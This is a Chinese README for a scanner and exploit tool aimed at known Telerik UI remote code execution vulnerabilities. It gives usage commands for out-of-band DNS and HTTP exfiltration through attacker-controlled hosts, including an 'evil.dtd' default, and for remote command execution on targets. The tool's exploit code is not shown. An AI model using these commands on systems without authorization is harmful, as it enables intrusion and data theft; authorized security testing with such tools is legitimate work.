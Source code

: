 # Telerik UI RCE 漏洞扫描与利用工具

## 功能概述

这是一个增强版的 Telerik UI 远程代码执行漏洞扫描工具，支持多种测试模式和自定义配置。

## 新增功能

### 1. 多模式测试
- **自动检测**: 完整的漏洞检测流程
- **自定义测试**: 支持特定类型的测试
- **漏洞利用**: 尝试实际的漏洞利用

### 2. 自定义参数配置
- DNS外带测试配置
- HTTP外带测试配置  
- 命令执行测试
- 自定义Payload测试

### 3. 详细日志输出
- 时间戳记录
- 多级别日志
- 文件输出支持
- 详细模式开关

### 4. 结果导出
- JSON格式结果输出
- 漏洞详情汇总
- 测试结果统计

## 使用方法

### 基本扫描
```bash
python 1.py -u http://target.com
```

### 指定测试类型
```bash
# 只检测组件
python 1.py -u http://target.com -t detection

# 只测试文件上传
python 1.py -u http://target.com -t file_upload

# 只测试漏洞利用
python 1.py -u http://target.com -t exploit
```

### 自定义测试
```bash
# DNS外带测试
python 1.py -u http://target.com -c dns -d your-domain.com

# HTTP外带测试
python 1.py -u http://target.com -c http -http http://your-server.com/payload.dtd

# 命令执行测试
python 1.py -u http://target.com -c command -cmd "whoami"

# 自定义Payload测试
python 1.py -u http://target.com -c custom -p "<your_xml_payload>"
```

### 高级选项
```bash
# 启用详细模式
python 1.py -u http://target.com -v

# 设置超时时间
python 1.py -u http://target.com -to 60

# 输出结果到文件
python 1.py -u http://target.com -o result.txt
```

## 参数说明

| 参数 | 说明 | 默认值 |
|------|------|--------|
| `-u, --url` | 目标URL | 必填 |
| `-t, --test-type` | 测试类型: all, detection, async_upload, serialization, file_upload, exploit | all |
| `-c, --custom-test` | 自定义测试类型: dns, http, command, custom | - |
| `-p, --payload` | 自定义Payload | - |
| `-d, --dns-domain` | DNS外带域名 | example.com |
| `-http, --http-url` | HTTP外带URL | http://example.com/evil.dtd |
| `-cmd, --command` | 执行的命令 | whoami |
| `-o, --output` | 输出文件 | - |
| `-v, --verbose` | 详细模式 | false |
| `-to, --timeout` | 请求超时时间(秒) | 30 |

## 测试类型说明

### 1. 组件检测 (detection)
检测目标是否使用 Telerik UI 组件，检查常见路径：
- `/Telerik.Web.UI.WebResource.axd`
- `/WebResource.axd`
- `/ScriptResource.axd`
- `/Telerik.Web.UI.DialogHandler.aspx`
- `/Telerik.Web.UI.SpellCheckHandler.axd`
- `/Telerik.Web.UI.AsyncUploadHandler.axd`

### 2. AsyncUpload组件检测 (async_upload)
检测 RadAsyncUpload 组件是否存在

### 3. 序列化漏洞测试 (serialization)
测试 .NET 序列化漏洞

### 4. 文件上传测试 (file_upload)
测试文件上传功能

### 5. 漏洞利用测试 (exploit)
尝试实际的漏洞利用：
- DNS外带数据
- HTTP外带数据
- 命令执行

## 输出示例

```
[2025-08-31 10:30:45] [INFO] 开始测试目标: http://target.com
[2025-08-31 10:30:45] [INFO] 漏洞名称: Progress Telerik UI 远程代码执行漏洞
[2025-08-31 10:30:45] [INFO] CVE编号: CVE-2019-18935, CVE-2017-11317, CVE-2017-11357
[2025-08-31 10:30:45] [INFO] 影响版本: 2007.2.607.0 - 2019.3.1023.0
```

## 安全提示

1. 仅在授权测试的环境中使用本工具
2. 测试前确保获得目标系统的明确授权
3. 不要对生产环境进行未经授权的测试
4. 测试结果仅供参考，需要人工验证

## 免责声明

本工具仅用于安全研究和授权测试目的。使用者应对其行为负责，作者不对任何误用或损坏负责。

## 版本信息

- 版本: 2.0 (增强版)
- 更新: 添加了自定义测试、漏洞利用、结果导出等功能
- 作者: Mickey
- 日期: 2025-09-01

